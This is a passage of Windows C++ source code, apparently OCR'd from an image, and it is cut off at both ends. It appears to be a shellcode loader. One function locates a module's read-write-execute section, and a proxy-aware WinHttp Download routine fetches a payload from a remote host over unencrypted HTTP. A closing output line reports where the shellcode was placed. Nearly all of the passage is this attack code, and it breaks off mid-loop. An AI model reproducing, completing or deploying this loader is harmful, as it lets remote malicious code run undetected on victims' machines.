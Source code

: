 ```
            {
                DWORD_PTR baseAddress = (DWORD_PTR)hModule;
                DWORD_PTR sectionOffset = sectionHeader->VirtualAddress;
                DWORD_PTR rwxOffset = sectionOffset + baseAddress;
                return rwxOffset;
            }

            sectionHeader++;
        }
    }

    return 0;
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_ASYNC);          // disable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTP_PORT,            // port 80
        0);

    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        WINHTTP_FLAG_BYPASS_PROXY_CACHE);                   // no ssl

    // send the request
    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    // receive response
    WinHttpReceiveResponse(
        hRequest,
        NULL);

    // read the data
    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
```

[+]: Shellcode located at c7160